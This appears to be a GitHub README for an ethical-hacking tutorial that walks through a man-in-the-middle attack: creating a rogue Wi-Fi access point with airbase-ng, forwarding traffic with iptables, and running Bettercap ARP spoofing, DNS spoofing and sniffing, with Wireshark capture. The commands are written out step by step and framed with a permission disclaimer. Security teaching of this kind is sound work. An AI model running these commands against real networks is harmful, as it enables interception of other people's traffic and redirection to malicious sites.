 # Wi-Fi-Mirage-The-Illusion-of-Security
Wi-Fi Mirage: An ethical hacking toolkit to create rogue Wi-Fi access points, intercept traffic, and demonstrate network vulnerabilities.


## 🚀 Introduction
Welcome to the ultimate guide on setting up a **Man-in-the-Middle (MITM) Attack** in a controlled environment! This project is designed for educational purposes to demonstrate network vulnerabilities and the power of ethical hacking. Remember, **with great power comes great responsibility**—always have permission before testing any network!

## 🎯 Project Overview
In this project, we’ll create a rogue Wi-Fi access point and use various tools to intercept and analyze network traffic. By following the steps below, you'll learn how to set up a MITM attack, capture packets, and perform DNS spoofing to redirect users.

## 🛠️ Tools Used
- **Aircrack-ng**: A suite of tools for wireless security auditing.
- **Bettercap**: An advanced, powerful, and flexible tool for network attacks and monitoring.
- **Wireshark**: A popular network protocol analyzer for capturing and inspecting packets.
- **iptables**: A user-space utility program for configuring the Linux kernel firewall.

## 🧩 Approaches to MITM
1. **Setting Up a Rogue Access Point**: Use `airbase-ng` to create a fake Wi-Fi network.
2. **Network Sniffing**: Capture packets from the network to analyze traffic.
3. **DNS Spoofing**: Redirect users to malicious sites using Bettercap’s DNS spoofing features.
4. **ARP Spoofing**: Mislead devices into sending their data to your machine instead of the intended destination.

## 📜 Commands Used
Here’s the command lineup for the MITM setup:

### 1. Start Monitor Mode
Make sure your Wi-Fi adapter is ready to capture packets.

```bash
sudo airmon-ng start wlan0
```
![WhatsApp Image 2024-10-06 at 00 32 28_28274e26](https://github.com/user-attachments/assets/481169a9-3d9d-4d27-9af0-f07d9423caec)


### 2. Create the Rogue Wi-Fi Network
Set up a fake Wi-Fi network named "Wifi-Test".

```bash
sudo airbase-ng -e "Test-Wifi" -c 11 wlan0
```

### 3. Configure the Fake Access Point
Bring the interface up and assign it an IP address.

```bash
sudo ifconfig at0 up
sudo ifconfig at0 192.168.1.1 netmask 255.255.255.0
```

### 4. Enable Internet Access for Clients
Allow clients connected to our rogue AP to access the internet.

```bash
sudo iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
sudo iptables --append FORWARD --in-interface at0 -j ACCEPT
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
![WhatsApp Image 2024-10-06 at 00 32 30_fd2c03b7](https://github.com/user-attachments/assets/e71e7926-26b3-48ab-b7a9-eb3c4608079f)

### 5. Start Bettercap
Launch Bettercap with the fake interface.

```bash
sudo bettercap -iface at0
```

### 6. Execute Bettercap Commands
Once inside Bettercap, run the following commands to set up sniffing and spoofing:

```bash
net.probe on
net.show
arp.spoof on
dns.spoof on
net.sniff on
```
![WhatsApp Image 2024-10-06 at 00 36 19_7c453712](https://github.com/user-attachments/assets/5142387b-b5db-414e-ad67-4f7bdb912449)

### 7. Ping
Checking whethere the host is up or not
![WhatsApp Image 2024-10-06 at 00 32 29_3ef2e762](https://github.com/user-attachments/assets/df6194cf-b047-4ac2-b500-23c73279f544)


### 7. Capture and Analyze Traffic
Use Wireshark to analyze captured packets. You can start Wireshark in a separate terminal.

```bash
wireshark
```
![WhatsApp Image 2024-10-06 at 00 32 28_0704eee3](https://github.com/user-attachments/assets/b6623d0d-7c32-49e4-99a2-1aaf91266a65)


## 📱 Mobile Connection Screenshot
![WhatsApp Image 2024-10-06 at 00 32 30_ccc72314](https://github.com/user-attachments/assets/7578e02e-fabb-422b-baf1-f2109657856c)

## ⚠️ Disclaimer
This guide is for educational purposes only. Use the information responsibly and only on networks where you have explicit permission to perform penetration testing. Unauthorized access to networks is illegal and unethical.

## 🙌 Conclusion
This project provides a foundational understanding of network vulnerabilities and ethical hacking. Remember to share your findings and experiences responsibly!
